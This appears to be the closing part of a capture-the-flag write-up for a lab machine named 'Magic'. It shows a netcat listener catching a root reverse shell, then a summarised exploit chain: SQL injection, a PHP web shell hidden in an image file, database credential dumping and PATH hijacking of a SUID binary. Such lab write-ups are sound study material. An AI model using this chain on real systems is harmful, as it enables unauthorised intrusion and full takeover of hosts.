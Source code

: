 ```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.185] 56434
root@magic:~# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root@magic:~# uname -a
uname -a
Linux magic 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@magic:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c0:96 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.185/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:c096/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> path scan -> login page SQLi -> password dumped -> file upload -> PHP getimagesize() -> insert shellcode into comment attribute of image properties to execute it, image name: .php.png -> www-data web shell -> enum mysql db -> theseus shell -> suid sysinfo -> root-priv command with relative path -> alter PATH and fake same name binary file -> root shell
